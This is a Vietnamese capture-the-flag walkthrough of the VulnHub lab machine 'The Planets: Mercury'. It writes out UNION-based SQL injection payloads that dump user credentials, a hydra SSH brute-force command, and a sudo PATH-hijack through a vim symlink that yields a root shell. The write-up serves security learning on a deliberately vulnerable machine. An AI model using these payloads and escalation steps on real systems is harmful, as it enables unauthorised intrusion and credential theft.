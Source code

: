 ```yaml
---
title: "The Planets: Mercury Writeup - VulnHub"
categories:
  - CTF Writeup
  - VulnHub
tags:
  - hacking
  - The Planets
render_with_liquid: false
date: "2023-07-22 20:25:45"
---
```


Download [THE PLANETS: MERCURY](https://www.vulnhub.com/entry/the-planets-mercury,544/)

**Level**: Easy

## Scanning

<br>
Sử dụng **arp-scan** để xác định ip máy chủ mục tiêu

![scan ip](/posts/mercury-walkthrough/scan-ip.png)

Sau khi xác định được ip, tiến hành scan các port dịch vụ. Thử scan các known port trước cho đỡ tốn thời gian

![scan port](/posts/mercury-walkthrough/scan-port.png)

Thấy được 2 services đang hoạt động, ssh port 22 và web server port 8080. Thử truy cập webpage `http://10.0.2.4:8080`
xem khám phá được gì không

![run website](/posts/mercury-walkthrough/website.PNG)

Response trả về là 1 thông báo rằng site đang trong quá trình phát triển, ta có thể đoán có 1 hoặc 1 số ứng dụng web đang chạy trên máy mục tiêu. Tiến hành enumerate files phổ biến, có thể sử dụng tools `dirb`, `dirsearch`, `gobuster`, ...

![enumerate files](/posts/mercury-walkthrough/enumerate-files.PNG)

Truy cập `/robots.txt` cũng không có manh mối gì. Nhưng may mắn thay, trong khi mình thử random 1 số file thì nó hiển thị ra 1 số errors do dev quên không tắt tính năng debug :))

![enumerate files](/posts/mercury-walkthrough/clue.PNG)

Phát hiện được có tồn tại một folder `mercuryfacts/`. Truy cập nó và xem nó có gì

![mercuryfacts](/posts/mercury-walkthrough/mercuryfacts.PNG)

![load a fact](/posts/mercury-walkthrough/load-a-fact.PNG)

Ở đây có xuất hiện 2 link, Truy cập <u>Load a fact</u> thì trang này có chứa dữ liệu trả về theo id từ url, khả năng gọi từ database nên mình test thử sql injection bằng cách chèn nháy đơn:

![sql error](/posts/mercury-walkthrough/sql-error.PNG)

Không còn nghi ngờ gì nữa, site này dính lỗi SQLi và trang debug hiển thị lỗi sql, cho thấy rằng payload của ta được chấp nhận để truy vấn vào database . Mở Burp và tiến hành khai thác
<br>

## Exploitation

Cá nhân mình thì mình thích dùng tools cho lẹ (cụ thể là [sqlmap](/posts/sqlmap/)), nhưng để hiểu rõ thì trong bài viết này mình sẽ tự viết payload.
<br>
Thử câu truy vấn "thần thánh" `or 1=1` để bắt đầu khai thác:

```plaintext
/mercuryfacts/1 or 1=1
```

![exploit](/posts/mercury-walkthrough/exploit-1.PNG)

Đúng như mong đợi, kết quả là đã dump được tất cả các row trong sự kiện này (À, trước khi gửi request thì url-encode đã nhé!)
<br>

```
/mercuryfacts/1 order by 2/
```

![exploit](/posts/mercury-walkthrough/exploit-2.PNG)

Lỗi khi `order by 2`, có thể suy ra chỉ tồn tại 1 record ở đây.
<br>
Tiếp tục với câu lệnh UNION, tiến hành exploit tên database

```
/mercuryfacts/1 union select database()
```

![exploit](/posts/mercury-walkthrough/exploit-3.PNG)

Tìm tên các bảng từ database đã tìm được, có tham chiếu đến `information_schema`.

```
/mercuryfacts/1 union select group_concat(table_name) from information_schema.tables where table_schema='mercury'/
```

![exploit](/posts/mercury-walkthrough/exploit-4.PNG)

Tìm thấy được 2 table, nhưng ta chỉ quan tâm `users`, tiếp tục tìm columns từ bảng `users`

```
/mercuryfacts/1 union select group_concat(column_name) from information_schema.columns where table_schema='mercury' and table_name='users'/
```

![exploit](/posts/mercury-walkthrough/exploit-5.PNG)

Lần lượt dump username và password

```
/mercuryfacts/1 union select group_concat(username) from users/
```

![exploit](/posts/mercury-walkthrough/exploit-6.PNG)

```
/mercuryfacts/1 union select group_concat(password) from users/
```

![exploit](/posts/mercury-walkthrough/exploit-7.PNG)

Nhớ ra rằng ssh đang chạy cổng 22. Quá là lười thử từng username và password nên mình sẽ lựa chọn `hydra` để tổ hợp từng username password và login vô ssh.

```shell
hydra -L username.txt -P password.txt ssh://10.0.2.4 -V
```

![exploit](/posts/mercury-walkthrough/exploit-8.PNG)

Kết quả có 2 combination (nhưng là vì lab này đã được custom lại nên đã được thêm user `cmcleuleu`, còn bản gốc thì user_flag nằm ngay trong user `webmaster` ha). Tiến hành login user `cmcleuleu` và get user flag.

![user flag](/posts/mercury-walkthrough/user_flag.PNG)

Switch user qua `webmaster` và thực hiện Privilege Escalation.

## Privilege Escalation

Khám phá một lúc thì phát hiện được có 1 secret notes nằm trong thư mục dự án

![secret notes](/posts/mercury-walkthrough/secret_notes.PNG)

Decode base64 ta nhận được password của `linuxmaster`, su `linuxmaster` và tìm kiếm root flag

![linuxmaster user](/posts/mercury-walkthrough/linuxmaster.PNG)

Kiểm tra đặc quyền của _linuxmaster_ thông qua `sudo -l`

![linuxmaster privilege](/posts/mercury-walkthrough/linuxmaster-privilege.PNG)

Có thể thấy, user có thể thực thi script `/usr/bin/check_syslog.sh` với quyền _root_ và lại được set preserved environment. Kiểm tra xem file `check_syslog.sh` có gì:

![check_syslog.sh](/posts/mercury-walkthrough/check_syslog.PNG)

User không có quyền ghi file `check_syslog.sh` nhưng có thể thực thi nó, hơn thế nữa trong shell script có chứa lệnh `tail` được gọi. Từ đây, ta có thể tận dụng nó bằng cách symlink nó tới 1 chương trình có thể sinh ra shell (ví dụ như `vim`)

`vim` có thể thực thi shell command thông qua syntax `:!`, tiến hành symlink _vim_ qua _tail_ và đồng thời set PATH cho đường dẫn hiện tại:

```shell
ln -s /usr/bin/vim tail
```

```shell
export PATH=${pwd}:$PATH
```

![check_syslog.sh](/posts/mercury-walkthrough/symlink-to-vim.PNG)

Bước cuối cùng, công việc thực thi script `check_syslog.sh` dưới chế độ _preserved environment_ cho PATH:

```shell
sudo --preserve-env=PATH /usr/bin/check_syslog.sh
```

Lúc này `vim` được mở lên, điều chúng ta cần làm là type `:shell`

![spawn shell](/posts/mercury-walkthrough/shell.PNG)

Hit enter và root shell hiện ra:

![get root](/posts/mercury-walkthrough/get_root.PNG)

Flag:

![flag](/posts/mercury-walkthrough/flag.png)
